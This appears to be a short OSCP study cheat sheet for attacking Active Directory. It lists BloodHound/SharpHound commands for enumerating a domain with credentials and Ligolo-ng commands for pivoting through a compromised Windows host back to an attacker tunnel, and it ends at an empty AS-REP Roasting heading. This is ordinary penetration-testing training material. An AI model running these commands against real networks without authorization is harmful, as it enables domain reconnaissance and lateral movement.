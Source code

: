 # Active-Directory for OSCP

## Enumerate with Bloodhound 

*  From Kali

```bash
bloodhound-python -d 'oscp.exam' -u 'user' -p 'password' -ns $IP -dc dc.oscp.exam -c all --zip
```

* From Windows 

```
SharpHound.exe --collectionmethods All
```

## Pivoting

* With Ligolo-ng on agent run

```powershell
.\agent.exe -connect tun0:11601 -ignore-cert
```

* With proxy

```bash
sudo ip tuntap add user rzgami mode tun ligolo
```

```bash
sudo ip link set ligolo up
```

```bash
./proxy -selfcert

```

* Once the agent connection is received do

```bash
sessions
```

```bash
ifconfig
```

```bash
sudo ip route add 10.10.x.x/24 dev ligolo
```

```bash
start
```


## AS-REP Roasting
